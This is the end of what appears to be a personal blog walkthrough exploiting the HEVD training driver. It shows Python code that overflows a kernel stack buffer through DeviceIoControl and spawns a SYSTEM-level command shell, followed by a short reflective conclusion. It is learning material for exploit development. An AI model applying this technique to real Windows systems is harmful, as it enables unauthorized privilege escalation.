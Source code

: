 ```python

buf = create_string_buffer("A"*2048 + "B"*8 + addr)

result = kernel32.DeviceIoControl(
    hevd,
    0x222003,
    addressof(buf),
    (len(buf)-1),
    None,
    0,
    byref(c_ulong()),
    None
)

if result != 0:
        print("[*] Sending payload to driver...")
else:
    print("[!] Unable to send payload to driver.")
    sys.exit(1)

print("[*] Spawning CMD shell with nt authority\system privs.")
Popen("start cmd", shell=True)
```

## Conclusion
This actually took me a long time to figure out. The problem with RDI I didn't see in any of the walkthroughs so it was a perfect opportunity for me to stand on my own. It was also a great opportunity to explore and use WinDBG some more. I'm so grateful for all of the amazing blog posts out there, thank you very much for the authors. Until next time!



